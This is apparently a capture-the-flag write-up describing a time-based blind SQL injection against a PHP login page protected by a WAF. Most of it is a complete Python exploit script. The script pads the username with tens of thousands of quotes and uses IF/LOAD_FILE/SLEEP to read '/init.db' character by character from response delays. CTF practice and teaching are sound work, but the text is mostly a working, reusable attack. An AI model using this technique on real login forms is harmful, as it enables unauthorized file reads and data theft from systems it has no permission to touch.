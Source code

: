 We use a **time-based blind SQL injection** approach:

1. The flag is stored in `/init.db`.
2. The WAF blocks normal SQL injection patterns, so we rely on **time delays**.
3. The idea is to craft a payload that causes the database to sleep when a guessed character matches.
4. Measure the response time to confirm each character of the flag.

---

### Exploit Script

```python
#!/usr/bin/env python3
import requests
import time

URL = "http://localhost:5008/index.php"
SESSION = requests.Session()

# Configuration for the challenge
SLEEP_TIME = 3
THRESHOLD = 2.0   # if response > threshold → condition true
CHARS = "0123456789abcdef}"
FLAG = "BHFlagY{"   # known prefix

# Payload template for time-based blind SQL injection
payload_template = (
    "'" * 78095 +
    "+IF(ASCII(SUBSTRING(LOAD_FILE('/init.db'),{pos},1))={char},SLEEP({delay}),0)#"
)

def send_payload(payload):
    start = time.time()
    SESSION.post(URL, data={
        "username": payload,
        "password": "x",
        "login-submit": "1"
    })
    return time.time() - start

def extract_flag():
    global FLAG
    while not FLAG.endswith("}"):
        pos = 1012 + len(FLAG)  # offset where the flag starts in /init.db
        for c in CHARS:
            payload = payload_template.format(pos=pos, char=ord(c), delay=SLEEP_TIME)
            elapsed = send_payload(payload)
            if elapsed > THRESHOLD:
                FLAG += c
                print(f"[+] Found char: {c} → {FLAG}")
                break
        else:
            print("[-] No character matched, stopping.")
            break
    return FLAG

if __name__ == "__main__":
    print("[*] Extracting flag...")
    flag = extract_flag()
    print(f"[!] Final FLAG = {flag}")
```

---
